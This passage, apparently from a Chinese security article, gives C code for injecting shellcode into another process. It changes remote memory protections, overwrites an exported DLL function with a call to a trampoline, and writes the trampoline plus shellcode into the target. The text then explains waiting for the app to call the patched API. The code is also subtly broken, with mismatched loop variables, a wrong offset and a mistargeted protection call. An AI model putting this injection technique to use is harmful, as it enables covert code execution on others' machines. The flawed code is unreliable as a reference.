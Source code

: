 首先设置为  
PAGE_EXECUTE_READWRITE  
（可执行、读、写）完成后把  
PAGE_EXECUTE_READ  
恢复为（可执行、读）。  
  

```
VirtualProtectEx(hProc,
            call_opcode_to_shell,
            sizeof(call_opcode_to_shell),
            PAGE_EXECUTE_READWRITE,
            NULL);
    if (!WriteProcessMemory(hProc,
            dll_export_fun_addr,
            call_opcode_to_shell,
            sizeof(call_opcode_to_shell),
            &numOfWrittenBytes))
    return 1;
    unsignedchar mypayload[sizeof(tramp_to_shellcode) + sizeof(shellcode)];
// 在这两个循环中，创建一个同时包含shellcode和Trampoline的大payload
    for (size_t x = 0; x < sizeof(tramp_to_shellcode); ++x)
        mypayload[i] = tramp_to_shellcode[i];
    for (size_t x = 0; x < sizeof(shellcode); ++x)
        mypayload[sizeof(shellcode) + i] = shellcode[i];
// 修改内存访问标志以启用写入权限
    if (!VirtualProtectEx(hProc,
            remoteAddress,
            sizeof(mypayload),
            PAGE_READWRITE,
            &saveProtectFlags))
    return 1;
// 写入payload
    if (!WriteProcessMemory(hProc,
            remoteAddress,
            mypayload,
            sizeof(mypayload),
            &numOfWrittenBytes))
    return 1;
// 恢复内存访问权限
    if (!VirtualProtectEx(hProc,
            remoteAddress,
            sizeof(mypayload),
            PAGE_EXECUTE_READ,
            &saveProtectFlags))
    return 1;
```

  
  
当前阶段的主要任务为等待应用程序触发对已修补函数的调用。经分析，被修改的API已通过API Monitor验证存在周期性触发逻辑，因此预计在较短时间内可观察到预期执行效果。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  